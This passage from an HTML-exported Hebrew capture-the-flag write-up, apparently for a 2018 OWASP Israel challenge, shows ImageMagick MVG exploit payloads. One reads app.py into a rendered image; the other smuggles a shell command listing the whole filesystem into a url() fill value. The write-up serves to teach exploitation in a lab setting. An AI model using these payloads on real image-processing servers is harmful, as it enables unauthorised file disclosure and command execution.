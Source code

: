 <p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=en-IL style='font-family:"Courier New"'>push graphic-context</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=en-IL style='font-family:"Courier New"'>viewbox 0 0 640 480</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=en-IL style='font-family:"Courier New"'>image over 0,0 0,0 'label:@app.py</span><span
dir=RTL></span><span lang=HE dir=RTL style='font-family:"Courier New"'><span
dir=RTL></span>'</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=en-IL style='font-family:"Courier New"'>pop graphic-context</span></p>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>התוצאה:</span></p>

<p class=MsoNormal align=center dir=RTL style='text-align:center;direction:
rtl;unicode-bidi:embed'><span lang=en-IL dir=LTR><img border=0 width=425
height=319 id="Picture 26" src="2018_OWASP-IL/images/image027.jpg"
alt="http://challenges.owaspil.ctf.today:8090/uploads/tmpxuig5e.png"></span></p>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>(זוהי לא תמונת מסך,
אלא התמונה עצמה שנוצרה מתהליך ההמרה! הטקסט מוטמע בתמונה על ידי השרת. בפועל,
התמונה קטנה מדי בשביל להכיל את כל הקוד של </span><span lang=EN-US dir=LTR>app.py</span><span
dir=RTL></span><span lang=HE style='font-family:"Arial",sans-serif'><span
dir=RTL></span>, ולכן אפשר להשתמש בשיטה הראשונה כדי לקבל את הקוד כולו כקובץ
טקסט. אולם, הדגל לא נמצא שם).</span></p>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כעת ננסה לסייר בעץ
התיקיות באמצעות הפקודה הבאה:</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-family:"Courier New"'>push graphic-context</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-family:"Courier New"'>viewbox 0 0 640 480</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-family:"Courier New"'>fill
'url(https://example.com/image.jpg&quot;|ls -alR /&gt;/tmp/e2.txt;&quot;)</span><span
dir=RTL></span><span lang=HE dir=RTL style='font-family:"Courier New"'><span
dir=RTL></span>'</span></p>

<p class=MsoNormal style='margin-bottom:0cm;margin-bottom:.0001pt'><span
lang=EN-US style='font-family:"Courier New"'>pop graphic-context</span></p>

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
